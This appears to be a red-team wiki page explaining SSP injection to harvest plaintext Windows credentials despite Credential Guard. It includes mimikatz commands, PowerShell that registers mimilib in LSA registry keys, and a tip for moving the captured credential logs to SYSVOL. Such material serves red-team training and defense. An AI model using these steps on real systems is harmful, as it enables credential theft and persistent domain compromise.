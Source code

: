 # SSP Injection

Windows authentication is built on the **Security Support Provider Interface (SSPI)**, which delegates auth tasks to various **Security Support Providers (SSPs)** like NTLM, Kerberos, WDigest, and CredSSP. These SSPs are implemented as DLLs loaded into the Local Security Authority Subsystem Service process (`LSASS`), which manages credential storage and authentication on behalf of the OS.

**Credential Guard** is a Windows security feature that protects cached credentials by isolating them from `LSASS` using virtualization. It relies on **Virtualization-Based Security (VBS)**, which creates two separate trust levels: **VTL0** (where the OS and `LSASS` run) and **VTL1** (a protected space where sensitive components like `LSAISO.exe` reside). When Credential Guard is enabled, **domain credentials are isolated in VTL1** and only accessible to `LSAISO.exe`, while `LSASS` continues to run in VTL0. This isolation prevents tools like [Mimikatz](../ad-tools/mimikatz.md) from dumping domain creds — though local account hashes remain exposed.&#x20;

{% code overflow="wrap" %}
```powershell
mimikatz # sekurlsa::logonpasswords

Session           : RemoteInteractive from 4
User Name         : Administrator
           * LSA Isolated Data: NtlmHash
             Encrypted : 6ad536994213cea0d0b4ff783b8eeb51e5a156e058a36e9dfa8811396e15555d40546e8e1941cbfc32e8905ff705181214f8ec5c
```
{% endcode %}

However, Credential Guard **doesn't block credential flow through** `LSASS` **during login**. This creates a gap: by registering or injecting a custom SSP into `LSASS`, attackers can intercept plaintext credentials at login — before they’re protected — for users logging in interactively or via RDP/WinRM. Mimikatz provides a custom SSP (`mimilib.dll`) that logs cleartext credentials of all local logons, service accounts, and remote sessions. It can be deployed in two main ways:

{% tabs %}
{% tab title="Registry Based" %}
To deploy it persistently, the DLL is dropped to `c:\windows\system32` and registered via the `Security Packages` registry key. This method is more reliable that `LSASS` injection, but is on-disk and modifies registry keys:

{% code overflow="wrap" %}
```powershell
# Retrieve the current list of registered SSPs from the OSConfig registry path
$packages = Get-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\' -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages'

# Add the custom SSP "mimilib" to the list
$packages += "mimilib"

# Update the OSConfig registry key with the modified list, registering the new SSP
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\' -Name 'Security Packages' -Value $packages

# Update the main LSA registry key to ensure the custom SSP is recognized (some systems use this path)
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\' -Name 'Security Packages' -Value $packages
```
{% endcode %}

After the host is rebooted, the credentials are logged to:

```powershell
C:\Windows\System32\mimilsa.log
```
{% endtab %}

{% tab title="LSASS Injection" %}
This method injects the SSP directly into `LSASS` without writing to disk or requiring a reboot, though this is less stable on newer systems like Server 2019/2022:

```powershell
mimikatz # misc::memssp
```
{% endtab %}
{% endtabs %}

The main downside of this technique is that it **requires Domain Admin privileges** — both to register or inject the custom SSP and to retrieve the captured credentials from `C:\Windows\System32`. This can be partially mitigated by modifying Mimikatz to write logs to a world-readable location like `SYSVOL`. Additionally, the attack significantly **weakens system security and introduces substantial forensic artifacts**, particularly through registry modifications and potential kernel-mode driver installation.

